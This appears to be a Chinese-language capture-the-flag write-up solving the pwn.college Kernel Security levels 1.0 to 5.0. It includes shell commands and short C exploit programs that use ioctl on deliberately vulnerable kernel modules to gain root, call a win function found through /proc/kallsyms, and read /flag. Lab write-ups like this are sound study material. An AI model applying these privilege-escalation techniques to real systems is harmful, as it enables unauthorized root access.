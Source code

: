 # Practice-Pwncollege

`pwn.college`提供了linux kernel相关的学习资料和练习。太好了，直接跟着学

## [Kernel Security](https://pwn.college/system-security/kernel-security)

`levelx.1`的解法与`levelx.0`完全相同，此处省略

### level1.0

建议阅读完`Lectures and Reading`的前三项（直到读完`Kernel: Kernel Modules`）再做这题（虽然题目很简单）

`/challenge`下有一个`.ko`文件。`.ko`其实就是elf，直接正常反编译即可

`init_module`函数里有一句`proc_create("pwncollege", 438, 0, &fops)`，说明我们可以从`/proc/pwncollege`与这个模块通信。`device_write`中将输入的内容与硬编码的密码进行比对，结果存入`device_state[0]`。`device_read`中，若`device_state[0]`等于0，则输出flag。好的这是一个逆向题而不是pwn（

直接在终端就能解：
```sh
echo "password" > /proc/pwncollege
cat /proc/pwncollege
```
（怀疑每个环境的密码不同，以下省略具体的密码）

### level2.0

继续是硬编码的密码。flag输出到了内核日志里，可以用`dmesg`查看。不知道为什么，ida似乎反编译失败了，ghidra里是这样：`printk(&DAT_00100658,flag)`；而ida pro里是这样的：`printk(&unk_618)`，完全没有flag的踪影

### level3.0

输入正确的密码可以得到root权限，进而可以直接`cat /flag`得到flag

### level4.0

做之前可以看一下`Kernel: Privilege Escalation`的内容，但也不是很有必要……

仍然是输密码，但需要编写C脚本调用ioctl
```c
#include <fcntl.h>
#include <sys/ioctl.h>
#include <stdlib.h>
int main() {
    int fd = open("/proc/pwncollege", O_RDWR);
    char password[] = "";
    ioctl(fd, 1337, &password);
    system("cat /flag");
    return 0;
}
```
编译：`gcc ./exp.c -o ./exp`

### level5.0

`device_ioctl`会将参数的值当作地址，并执行地址指向的内容。同时模块里存在一个win函数。唯一的问题是我们似乎不知道win函数的具体地址？kernel似乎每次加载都会改动基地址？

运行`dmesg | grep -i kaslr`后可以发现启动kernel时带了`nokaslr`。那没事了。在practice环境里看一眼win函数的地址：`sudo cat /proc/kallsyms | grep win`，然后直接用就好
```c
#include <fcntl.h>
#include <sys/ioctl.h>
#include <stdlib.h>
int main() {
    int fd = open("/proc/pwncollege", O_RDWR);
    unsigned long addr=0xffffffffc000012d;
    ioctl(fd, 1337, addr);
    system("cat /flag");
    return 0;
}
```